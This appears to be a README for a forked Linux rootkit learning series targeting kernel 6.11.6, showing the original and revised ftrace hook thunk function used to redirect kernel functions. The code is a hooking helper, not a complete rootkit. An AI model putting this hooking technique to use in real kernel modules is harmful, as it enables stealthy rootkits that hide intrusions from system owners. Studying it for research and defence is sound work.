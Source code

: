 # Linux-Rootkit-Series forked from Xcellerator

The Linux_kernel_hacking series with the xcellerator was amazing and inspired me to make an updated repo of his project and also make some minor changes since this will be working on 6.11.6. Understanding how these work opens you up to another other world.

This will aim to be a full series of individual malicious linux kernel modules for most recent kernel version 6.11.6.

** This is the link to the Xcellerator blog series https://xcellerator.github.io/posts/linux_rootkits_11/
---

# Changes from original copy of Xcellerators ftrace_helper.h library

  - This is the old function fh_ftrace_thunk() and its code below:
```
static void notrace fh_ftrace_thunk(unsigned long ip, unsigned long parent_ip, struct ftrace_ops *ops, struct pt_regs *regs)
{
    struct ftrace_hook *hook = container_of(ops, struct ftrace_hook, ops);

#if USE_FENTRY_OFFSET
    regs->ip = (unsigned long) hook->function;
#else
    if(!within_module(parent_ip, THIS_MODULE))
        regs->ip = (unsigned long) hook->function;
#endif
}
```

  - This is the revised code of the function fh_ftrace_thunk() function below:

```
static void notrace fh_ftrace_thunk(unsigned long ip, unsigned long parent_ip, struct ftrace_ops *ops, struct ftrace_regs *fregs)  // revised
{
    struct ftrace_hook *hook = container_of(ops, struct ftrace_hook, ops);

    struct pt_regs *regs = ftrace_get_regs(fregs); // Added

#if USE_FENTRY_OFFSET
    regs->ip = (unsigned long) hook->function;
#else
    if(!within_module(parent_ip, THIS_MODULE))
        regs->ip = (unsigned long) hook->function;
#endif
}
```




